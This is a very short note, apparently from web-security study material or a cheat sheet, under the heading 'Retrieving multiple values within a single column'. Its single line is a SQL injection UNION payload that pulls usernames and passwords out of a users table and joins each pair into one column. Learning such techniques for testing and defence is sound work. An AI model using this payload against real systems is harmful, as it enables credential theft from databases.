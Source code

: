 #Retrieving multiple values within a single column
#THEORY
' UNION SELECT username || '~' || password FROM users--
